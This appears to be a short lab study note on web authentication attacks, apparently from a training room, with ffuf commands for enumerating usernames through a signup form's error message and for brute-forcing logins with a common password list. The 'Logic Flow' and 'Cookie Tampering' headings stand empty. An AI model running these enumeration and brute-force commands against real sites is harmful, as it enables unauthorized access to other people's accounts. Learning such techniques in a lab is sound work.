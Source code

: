 ## Username Enumeration

This is a simple example, suppose if a website has signup option and when you enter a username, it says that username is taken. How can we enumerate users from here?

```shell
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

Ffuf definitely has started to look amazing now.

This can be used as a template in future.

## Brute Force

Suppose we get a list of users from the above command.

```shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

## Logic Flow



## Cookie Tampering

